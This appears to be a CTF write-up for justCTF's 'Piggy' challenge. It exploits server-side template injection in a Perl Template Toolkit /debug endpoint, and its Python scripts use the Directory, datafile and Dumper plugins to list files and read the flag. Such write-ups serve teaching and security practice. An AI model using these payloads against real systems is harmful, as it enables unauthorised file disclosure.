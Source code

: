 # Piggy

## Description
```
Who is such a piggy (ツ)

- http://piggy.web.jctf.pro
```

## Provided Files
```
- piggy_docker.tar.gz  
```

## Writeup

> [!NOTE]
> Major credits to [Dominik](https://github.com/Dominilk) and [Neverbolt](https://github.com/Neverbolt), but also [lavish](https://github.com/lavish) and [ar0x](https://github.com/ar0x4) who contributed to the solution.

Starting off, we inspected the provided code which appears to be a `perl` application using `Template Toolkit`. <br/>
```perl
use strict;
use warnings;

use Dancer2;
use Template;

my @greetings = ("Hello", "Ebe", "Greetings", "Hi", "Good day");

get '/' => sub {
    my $greeting = $greetings[rand @greetings];
    template 'index' => {
        greeting => $greeting
    };
};

post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};

start;
```

The `index` endpoint just returns a random greeting which doesn't really interest us as we can't change its behavior. <br/>
The `/debug` endpoint takes an input parameter named `debug` that we provide in the request body and returns the processed template based on our input. <br/>
Knowing this we can test out the `POST` endpoint using a small python-script. <br/> 
```py
import requests

base_URl = 'http://0rvfc22lv207i818178crbwvmq6vef.piggy.web.jctf.pro/'

payload = {
    'debug': f'[% INCLUDE index.tt %]'
}

res = requests.post(f'{base_URl}debug', data=payload)

print(res.text)
```

Executing the script returns the actual template which is also used by the index endpoint. <br/> 
Since we can select our own template using the `/debug` endpoint, we should look into how we can use this for our advantage. <br/>
Changing our input to `[% 7*7 %]`  returns just `49` indicating a `SSTI` vulnerability in this perl application which uses `Template Toolkit`. <br/>
Knowing that we got a working `Server-Side-Template-Injection` we can look around in the official [Template Toolkit Documentation](https://template-toolkit.org/docs/manual/Directives.html#section_USE) and look for a way to exploit it. <br/>
After some reading we found an interesting option which allows the usage of plugins which can do a variety of things. <br/>
```py
import requests

base_URl = 'http://0rvfc22lv207i818178crbwvmq6vef.piggy.web.jctf.pro/'

payload = {
    'debug': f"[% USE date %][% date.format %]",
}

res = requests.post(f'{base_URl}debug', data=payload)

print(res.text)
```

Executing the script returns `16:32:19 17-Jun-2024`. Knowing that loading plugins isn't blocked we can search for useful plguins. <br/>
After some skimming we found a [plugin](https://www.template-toolkit.org/docs/modules/Template/Plugin/Directory.html) which is able to read the contents of a directory. <br/>
```py
[% USE dir = Directory('./') %][% FOREACH file = dir.files %][% file.path %][% '\n' %][% END %]
```

Using the payload above we were able to read files of any directory on the system we had access to. <br/>
```sh
$ python3 solve.py 
./Dockerfile
./app.pl
./config.yml
./flag_980aef6e461ca1009ea62da051753b38.txt
```

Finding the actual flag, we only had to find a plugin to extract its contents. <br/> 
After more reading we found the plugin [datafile](https://www.template-toolkit.org/docs/modules/Template/Plugin/Datafile.html) which can read file-contents. <br/>
```py
[% USE file = datafile('./flag_980aef6e461ca1009ea62da051753b38.txt') %][% file %]
```

Trying to read the contents of the file though turns out to be rather hard with that plugin as the response just contains `Template::Plugin::Datafile=ARRAY(0x5c45b52c3050)` and not the actual content. <br/>
After some more reading we found another plugin called [Dumper](https://www.template-toolkit.org/docs/modules/Template/Plugin/Dumper.html) which is able to dump the contents of  variables or objects. <br/>
The final exploit can be seen below. <br/>
```py
import requests

base_URl = 'http://0rvfc22lv207i818178crbwvmq6vef.piggy.web.jctf.pro/'

payload = {
    'debug': f"[% USE f = datafile('./flag_980aef6e461ca1009ea62da051753b38.txt') %][% USE Dumper %][% Dumper.dump(f) %]",
}

res = requests.post(f'{base_URl}debug', data=payload)

print(res.text)
```

Executing the script returns the flag which concludes this writeup. <br/>
```sh
$ python3 solve.py 
$VAR1 = bless( [
                 {
                   'Here is your fat flag' => 'justCTF{0iNk_oinKxD}'
                 }
               ], 'Template::Plugin::Datafile' );
```<